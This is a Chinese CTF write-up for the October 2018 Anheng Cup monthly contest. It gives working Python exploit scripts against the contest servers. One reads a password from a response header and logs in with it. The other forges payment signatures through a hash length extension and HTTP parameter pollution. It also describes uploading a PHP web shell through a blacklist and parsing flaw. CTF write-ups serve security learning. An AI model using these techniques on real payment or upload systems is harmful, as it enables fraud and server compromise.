 ```yaml
---
layout: post
title: 2018年安恒杯10月月赛&&周周练20-21
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web
复现的时候环境已经关闭了，所以没有截图了

###手速要快（100分）:
打开网站，是一个登陆页面，抓包在返回包的包头里发现password字段，很快就会刷新，所以要写个脚本，读取password字段后立刻提交，脚本如下，经过测试需要带上cookie才能成功。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import re
import time

url1 = "http://101.71.29.5:10023/index.php"
response = requests.get(url=url1)
head = response.headers
# 将头信息转为可以进行json序列化的
x = requests.structures.CaseInsensitiveDict(head)
js = dict(x)
# print js # 此处打印出来的是一个json字符串
password=js.get("password")
cookie = js.get("Set-Cookie")
cookie=cookie[10:42]
url2 = "http://101.71.29.5:10023/login.php"
data = "password=123&submit_password=login"
data = {
        "password":password,
        "submit_password":""
    }
cookie = {'PHPSESSID': "5f3d0b93c3536da16830445227d1bad7"}
re2 = requests.post(url=url2,data=data,cookies=cookie)
print re2.text
print re2.cookies
```
登陆成功后跳转到一个上传页面，需要上传php木马，经过测试上传检测使用的是黑名单过滤，但是存在解析漏洞，上传shell.php.jpg即可getshell，flag在上级目录。

### Shop（300分）

`8月份人行比赛的原题`
本题考查了http参数污染和hash长度扩展攻击
HTTP 参数污染指的是在 HTTP 请求中 发送多个相同的参数，可能会导致一些非预期的结果。比如在 Querystring 中 发送两个 test 参数，Apache + PHP 会取最后一个:

```
http://127.0.0.1?test=123&test=456

$_GET['test']=456
```

而哈希长度扩展攻击适用于在消息与密钥的长度已知的情形下，所有采取了 H(密钥 ∥ 消息) 此类构造的散列函数。该攻击对 MD5 和 SHA-1 等基于 Merkle–Damgård 构造的算法有效。简单地说，就是当知道 MD5(secret) 时， 在不知道 secret 的情况下，可以很轻易的推算出 MD5(secret∥padding∥m’)
也就是说，我们需要结合上面两种手段，在原有的 Request Body 后追加 一些内容(padding 和用于覆盖的参数)，然后计算出新的 signature，完成支付。
我的exp如下，key长度可以从源代码里找到，或者直接爆破。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from hashpumpy import hashpump
import requests
import re
sign = 'c5cc881eef97f4276b2c86bc0e42490e'
data ='order_id=72&buyer_id=19&good_id=38&buyer_point=300&good_price=888&order_create_time=1541586327.760354'
cookie = {'sessionid': 'aybgeojx2vtvekwt8bg8vqxjqde18na0'}
# sign = '58e9846626f7c1b8e80ac2da8b456e9d'
# data = 'order_id=91&buyer_id=22&good_id=34&buyer_point=200&good_price=50&order_create_time=1528269449.183292'
# cookie = {'sessionid': '6j31jogubedhgfo3pq8vlwploe5zzwmj'}
check_url = 'http://101.71.29.5:10014/payment/check'
#for i secret_key_length range(0,2000):
secret_key_length = 13
for i in range(1, 30):
    res = hashpump(sign, data, '&buyer_id={}'.format(i), secret_key_length)
    print(res)
    req = requests.post('{}?signature={}'.format(check_url, res[0]),
    data=res[1], cookies=cookie, headers={'Content-Type': 'application/x-www-form-urlencoded'})
    print(re.findall('\<h4\>.*?\<\/h4\>', req.text))
```


## easy audit和CoolCms没做出来，请参考下面微笑大神的博客，还包括其他reverser和misc的一些题。

[https://www.smi1e.top](https://www.smi1e.top/%E5%AE%89%E6%81%92%E6%9D%AF%E6%9C%88%E8%B5%9Bwrite-up/)



[1]: https://www.linkedbyx.com/home
[2]: https://www.smi1e.top